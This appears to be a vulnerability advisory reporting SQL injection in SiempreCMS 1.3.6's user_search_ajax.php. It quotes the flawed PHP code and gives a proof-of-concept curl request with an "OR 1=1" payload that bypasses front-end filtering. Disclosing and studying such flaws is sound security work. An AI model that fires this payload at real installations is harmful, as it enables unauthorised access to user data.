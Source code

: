 # SQL Injection in Siempre CMS (user_search_ajax.php)

**Vulnerability Type:** SQL Injection (SQLi) 
</br>
**Affected Component:** ``user_search_ajax.php``
</br>
**Affected Parameters:** ``user-search-username, user-search-name``
</br>
**Product:** [SiempreCMS](https://github.com/SiempreCMS/SiempreCMS)
</br>
**Version:** 1.3.6

The user_search_ajax.php file is vulnerable to SQL injection due to improper handling of user-supplied input. User inputs are passed directly to the database query without proper parameterization or prepared statements.

The vulnerability resides on ``user_search_ajax.php``.

```php
if (isset($_POST['action']) && $_POST['action'] == 'search') {	
    $name = trim(htmlentities($_POST['user-search-name']));
    $userName = trim(htmlentities($_POST['user-search-username']));
    $perPage = intval(trim(htmlentities($_POST['user-search-perpage'])));
    $offset = (intval(trim(htmlentities($_POST['user-search-page']))) - 1) * $perPage;

    $usersearch = new usersearch();
    if($usersearch->getUsers($name, $userName, $perPage, $offset)) {	
        echo(json_encode(array('result' => true, 'results' => $usersearch->results, 'totalrows' => $usersearch->totalRows)));
        exit();
    }
}
```

### Why it’s vulnerable:
  - ``htmlentities()`` only escapes HTML characters, it does not prevent SQL injection.

  - ``$name`` and ``$userName`` are likely concatenated directly into SQL inside ``getUsers()``.

  - No prepared statements or parameterized queries are used.

---

### Proof-of-Concept
The following curl command demonstrates SQL injection:

```bash
curl -X POST \
  -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
  --data-urlencode "action=search" \
  --data-urlencode "user-search-username=test' OR 1=1-- " \
  --data-urlencode "user-search-name=test" \
  --data-urlencode "user-search-perpage=20" \
  --data-urlencode "user-search-page=1" \
  http://localhost/SiempreCMS/docs/admin/user_search_ajax.php
```
**Output:**
![](./sqlievidence.png)

---

### Important Note: Browser vs Terminal Behavior
  - When the same payload ``(' OR 1=1 --)`` is entered directly in the web interface, it does not trigger the SQLi.
  - This is because the front-end JavaScript (js/user.js) sanitizes or encodes the input before sending the AJAX request, preventing the raw payload from reaching the server.
  - Directly sending the POST request via curl bypasses all front-end filtering, which is why the vulnerability is exploitable outside the browser interface.

**Evidence:**
![](./sqli.png)



